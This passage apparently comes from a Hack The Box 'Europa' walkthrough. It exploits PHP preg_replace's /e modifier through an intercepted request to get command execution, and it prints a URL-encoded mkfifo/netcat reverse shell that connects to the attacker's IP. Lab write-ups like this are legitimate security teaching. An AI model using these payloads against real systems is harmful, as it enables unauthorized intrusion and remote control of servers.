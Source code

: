 * <a href="https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace" target="_blank"> Unexpected Dangers of preg_replace()</a>
* http://www.madirish.net/402
* http://php.net/manual/en/function.preg-replace.php      

As before, open up burp, make a legit generation request and intercept it.

<a href="/img/blog/htb-europa/htb-europa-09.png" target="_blank"><img class="centerImgHuge" src="/img/blog/htb-europa/htb-europa-09.png"></a>

Feel free to edit out all the giberrish and change the request data to `pattern=%2Fv3ded%2Fe&ipaddress=system("ls -la /")&text=v3ded` so that we can achieve RCE.
  
<a href="/img/blog/htb-europa/htb-europa-10.png" target="_blank"><img class="centerImgHuge" src="/img/blog/htb-europa/htb-europa-10.png"></a>

Now it's just the matter changing the system() command parameters and getting a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}. You can approach it in many ways, here is my solution - `system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+yourIP+PORT+>/tmp/f")`.  We use netcat for a reverse shell connection, however because *-e* option is  unavailable, we are forced to use a workaround. Check the reverse shell link above for more information.

> Note: The previous reverse shell is an URL encoded version of the original one, found on pentestmonkey.

<a href="/img/blog/htb-europa/htb-europa-11.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-europa/htb-europa-11.png"></a>

